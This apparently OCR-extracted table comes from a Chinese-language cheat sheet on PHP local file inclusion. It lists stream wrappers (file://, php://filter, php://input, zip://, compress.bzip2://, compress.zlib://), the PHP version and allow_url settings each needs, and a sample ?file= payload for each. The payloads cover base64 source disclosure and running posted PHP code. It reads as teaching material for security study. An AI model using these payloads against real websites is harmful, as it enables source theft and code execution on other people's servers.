 用法

file://

\>=5.2

off/on

off/on

?file=file://D:/soft/phpStudy/WWW/64/phpcode.txt

php://filter

\>=5.2

off/on

off/on

?file=php://filter/read=convert.base64-encode/resource=/index.php

php://input

\>=5.2

off/on

on

?file=php://input 【POST DATA <php phpinfo();?>】

zip://

\>=5.2

off/on

off/on

?file=zip://D:/soft/phpStudy/WWW/file.zip%23phpcode.txt

compress.bzip2://

\>=5.2

off/on

off/on

?file=compress.bzip2://D:/soft/phpStudy/WWW/file.bz2  
【or】  
?file=compress.bzip2://file.bz2

compress.zlib://

\>=5.2

off/on

off/on

?file=compress.zlib://D:/soft/phpStudy/WWW/file.gz  
【or】  
?file=compress.zlib://file.gz
